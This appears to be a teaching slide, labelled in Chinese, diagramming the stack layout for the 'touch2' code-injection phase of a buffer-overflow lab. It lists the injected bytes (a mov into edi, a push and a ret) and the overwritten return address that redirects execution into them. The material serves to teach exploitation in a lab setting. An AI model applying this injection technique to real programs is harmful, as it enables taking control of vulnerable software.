

touch2()
注入代码中的retq

00 00 00 00 55 61 dc 78
<- rsp+40   0x5561dca0
00 00 00 00 00 00 00 00
<- rsp+32   0x5561dc98
00 00 00 00 00 00 00 00
<- rsp+24   0x5561dc90
00 00 00 00 00 00 00 00
<- rsp+16   0x5561dc88
00 00 00 00 c3 00 40 17
<- rsp+8     0x5561dc80
ec 68  5f 59 b9 97 fa 68
<- rsp	       0x5561dc78

getbuf()中的retq